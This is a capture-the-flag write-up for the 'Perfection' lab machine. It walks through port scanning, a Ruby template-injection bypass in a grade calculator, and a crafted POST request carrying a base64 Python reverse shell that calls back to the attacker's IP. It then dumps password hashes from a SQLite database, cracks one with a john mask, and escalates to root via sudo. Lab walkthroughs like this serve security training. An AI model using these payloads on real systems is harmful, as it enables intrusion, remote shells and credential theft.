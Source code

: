 ```yaml
---
layout: post
author: Julio
date: 11-05-2024
title: Perfection Write-Up
---
```


# Perfection Write-Up

## Introduction

## First Steps

<p>We will first run an Nmap scan to discover all open ports:</p>

```bash
sudo nmap -p- -T4 --open -Pn 10.10.11.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-05-11 17:06 CEST
Nmap scan report for 10.10.11.253
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 34.85 seconds

```

<p>We can then run scripts to get the services and their versions.</p>

```bash
sudo nmap -sC -sV -p22,80 10.10.11.253 --open -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2024-05-11 17:09 CEST
Nmap scan report for 10.10.11.253
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.70 seconds

```

<p>We can access the website and we will get a calculator</p>

<div class="center"><img src="/assets/images/screenshots/htb-perfection-website1.png"></div>

## User Flag

<p>In Burp Suite, we can try</p>

```bash
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: http://10.10.11.253
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1={{7*7}}&grade1=80&weight1=20&category2=Category2&grade2=80&weight2=20&category3=Category3&grade3=80&weight3=20&category4=Category4&grade4=80&weight4=20&category5=Category5&grade5=80&weight5=20
```

<p>In the response</p>

```html
[...snip]
       <p>Please enter a maximum of five category names, your grade in them out of 100, and their weight. Enter "N/A" into the category field and 0 into the grade and weight fields if you are not using a row.</p>
      </form>
      Malicious input blocked
    </div>
  </div>
[...snip]
```

<p>However, if we</p>

```bash
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: http://10.10.11.253
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1=aa%0a{{7*7}}&grade1=80&weight1=20&category2=Category2&grade2=80&weight2=20&category3=Category3&grade3=80&weight3=20&category4=Category4&grade4=80&weight4=20&category5=Category5&grade5=80&weight5=20
```

<p>And</p>

```html
[...snip] Your total grade is 80%
<p>aa {{7*7}}: 16%</p>
[...snip]
```

<p>We saw a reference to Sinatra in the error page. we can try an ssti ruby payload: <custom-code><%= 7*7 %> </custom-code></p>

```html
     </form>
      Your total grade is 80%<p>aa
49 : 16%</p>
```

<p>And it worked. We can now geenrate a reverse shell payload with GoPariah and send it in the request</p>´

```bash
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 262
Origin: http://10.10.11.253
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1=aa%0a<%25%3d+system("curl+10.10.16.8:9001?p=$(echo+-n+cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjgiLDkwMDEpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCIvYmluL2Jhc2giKSc%3d+|+base64+-d+|+bash)")+%25>&grade1=80&weight1=20&category2=Category2&grade2=80&weight2=20&category3=Category3&grade3=80&weight3=20&category4=Category4&grade4=80&weight4=20&category5=Category5&grade5=80&weight5=20
```

<p>WE will open a listener before sending it and we will get a connection back as "susan"</p>

```bash
nc -l 9001
susan@perfection:~/ruby_app$
```

<p>Once we are inside the machine, we can read the user flag</p>

## Root Flag

<p>Inside the machine, we can see that there's an email to susan:</p>

```bash
susan@perfection:~$ cat /var/spool/mail/susan
cat /var/spool/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

<p>Brute-forcing the password would probably be impossible. However, in the home directory we find a folder called "Migration" that contains a database</p>

```bash
susan@perfection:~/Migration$ ls
ls
pupilpath_credentials.db
susan@perfection:~/Migration$ file pupilpath_credentials.db
file pupilpath_credentials.db
pupilpath_credentials.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 6, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 6
```

<p>We can use sqlite3 to open it</p>

```bash
susan@perfection:~/Migration$ sqlite3 pupilpath_credentials.db
sqlite3 pupilpath_credentials.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
.tables
users
sqlite> select * from users;
select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

<p>we can then use john with a mask to achieve</p>

```bash
Tools/john/run/john --format=raw-sha256 --mask=susan_nasus_\?d\?d\?d\?d\?d\?d\?d\?d\?d hashcrackmeplz
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 ASIMD 4x])
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
susan_nasus_413759210 (?)
1g 0:00:00:06 DONE (2024-05-11 17:48) 0g/s 14980Kp/s 14980Kc/s 14980KC/s susan_nasus_692759210..susan_nasus_003759210
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

<p>Now that we know her password, we can</p>

```bash
susan@perfection:~/Migration$ sudo -l
sudo -l
[sudo] password for susan: susan_nasus_413759210

Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
susan@perfection:~/Migration$ sudo su
sudo su
root@perfection:/home/susan/Migration#
```

<p>We can now read the root flag.</p>

<p>That's all, folks!</p>
